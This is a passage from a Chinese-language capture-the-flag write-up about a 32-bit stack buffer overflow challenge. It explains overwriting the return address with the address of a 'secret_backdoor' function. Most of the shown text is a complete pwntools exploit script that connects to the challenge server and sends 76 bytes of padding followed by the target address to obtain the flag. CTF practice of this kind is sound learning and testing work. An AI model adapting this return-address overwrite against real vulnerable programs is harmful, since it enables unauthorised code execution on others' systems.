

那我们就是要溢出出来覆盖成这个函数的地址。

​

exp

```
from pwn import *

# 配置环境
context(arch='i386', os='linux')
context.log_level = 'debug'

# 连接目标
p = remote('ctf.2v8.cn', 20178)


offset = 76
ret_addr = 0x080491C6  # secret_backdoor函数地址

# 构造Payload
payload = flat(
    b'A' * offset,
    p32(ret_addr)
)

# 发送并获取flag
p.sendline(payload)
p.recv()
```



得到flag!
